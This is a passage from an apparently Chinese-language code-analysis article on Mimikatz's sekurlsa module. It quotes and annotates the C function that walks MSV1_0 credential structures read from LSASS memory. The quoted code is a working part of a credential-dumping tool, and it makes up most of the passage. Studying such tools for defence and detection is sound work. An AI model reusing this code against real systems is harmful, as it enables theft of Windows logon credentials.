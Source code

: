 跟进 `kuhl_m_sekurlsa_msv_enum_cred()` 函数：

- sekurlsa\\packages\\kuhl\_m\_sekurlsa\_msv1\_0.c

```c++
VOID kuhl_m_sekurlsa_msv_enum_cred(IN PKUHL_M_SEKURLSA_CONTEXT cLsass, IN PVOID pCredentials, IN PKUHL_M_SEKURLSA_MSV_CRED_CALLBACK credCallback, IN PVOID optionalData)
{
    KIWI_MSV1_0_CREDENTIALS credentials;
    KIWI_MSV1_0_PRIMARY_CREDENTIALS primaryCredentials;
    KULL_M_MEMORY_ADDRESS aLocalMemory = {NULL, &amp;KULL_M_MEMORY_GLOBAL_OWN_HANDLE}, aLsassMemory = {pCredentials, cLsass-&gt;hLsassMem};

    while(aLsassMemory.address)
    {
        aLocalMemory.address = &amp;credentials;
        // 把 pData-&gt;pCredentials 复制到 credentials 指向的内存中
        if(kull_m_memory_copy(&amp;aLocalMemory, &amp;aLsassMemory, sizeof(KIWI_MSV1_0_CREDENTIALS)))
        {
            aLsassMemory.address = credentials.PrimaryCredentials;
            while(aLsassMemory.address)
            {
                aLocalMemory.address = &amp;primaryCredentials;
                // 把 pCredentials.PrimaryCredentials 复制到 primaryCredentials 指向的内存中
                if(kull_m_memory_copy(&amp;aLocalMemory, &amp;aLsassMemory, sizeof(KIWI_MSV1_0_PRIMARY_CREDENTIALS)))
                {
                    // primaryCredentials.Credentials.Buffer 指向搜寻目标缓存凭据的地址
                    aLsassMemory.address = primaryCredentials.Credentials.Buffer;
                    if(kull_m_process_getUnicodeString(&amp;primaryCredentials.Credentials, cLsass-&gt;hLsassMem))
                    {
                        if(kull_m_process_getUnicodeString((PUNICODE_STRING) &amp;primaryCredentials.Primary, cLsass-&gt;hLsassMem))
                        {
                            // credCallback 为 kuhl_m_sekurlsa_msv_enum_cred_callback_std
                            credCallback(cLsass, &amp;primaryCredentials, credentials.AuthenticationPackageId, &amp;aLsassMemory, optionalData);
                            LocalFree(primaryCredentials.Primary.Buffer);
                        }
                        LocalFree(primaryCredentials.Credentials.Buffer);
                    }
                } else kprintf(L"n.e. (KIWI_MSV1_0_PRIMARY_CREDENTIALS KO)");
                aLsassMemory.address = primaryCredentials.next;
            }
            aLsassMemory.address = credentials.next;
        } else kprintf(L"n.e. (KIWI_MSV1_0_CREDENTIALS KO)");
    }
}
```

回顾前文，我们在枚举 `KIWI_MSV1_0_LIST_63` 结构体时可以看到，凭据属性 `Credentials` 在该结构中的偏移量为 `0x108`，这是一个 `PKIWI_MSV1_0_CREDENTIALS` 结构体，其声明如下。
